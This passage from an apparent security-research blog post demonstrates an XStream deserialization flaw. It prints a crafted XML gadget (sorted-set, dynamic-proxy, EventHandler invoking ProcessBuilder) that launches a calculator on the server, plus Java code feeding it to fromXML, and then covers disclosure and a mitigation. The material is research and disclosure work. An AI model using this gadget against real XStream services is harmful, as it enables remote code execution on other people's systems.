 That will also happen during the deserialization process but at least we will be able to execute our payload.
Anyway, we will need to craft the payload by hand and we will get something like:

```lang-markup line-numbers 
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

Now, if we deserialize this XML, we will get a Cast exception and our malicious calculator running on the server:

```lang-java line-numbers 
String payload = "<sorted-set>" +
        "<string>foo</string>" +
        "<dynamic-proxy>" +
        "<interface>java.lang.Comparable</interface>" +
        "<handler class=\"java.beans.EventHandler\">" +
        " <target class=\"java.lang.ProcessBuilder\">" +
        " <command>" +
        " <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>" +
        " </command>" +
        " </target>" +
        " <action>start</action>" +
        "</handler>" +
        "</dynamic-proxy>" +
        "</sorted-set>";

Contact c = (Contact) xstream.fromXML(payload);
```

![](/images/octopress/calc.png)

You can find the whole project POC in the [XStream POC github repo](https://github.com/pwntester/XStreamPOC)

## Disclosure

I reported this issue to the XStream developers. I was wondering if there was any way to unregister the **reflection** converter by default. As you can see in this [mail thread](https://www.mail-archive.com/user@xstream.codehaus.org/msg00602.html), there was a solution. Unregistering the converter was not possible but registering a catch-all converter with higher priority than the reflection one should be possible.
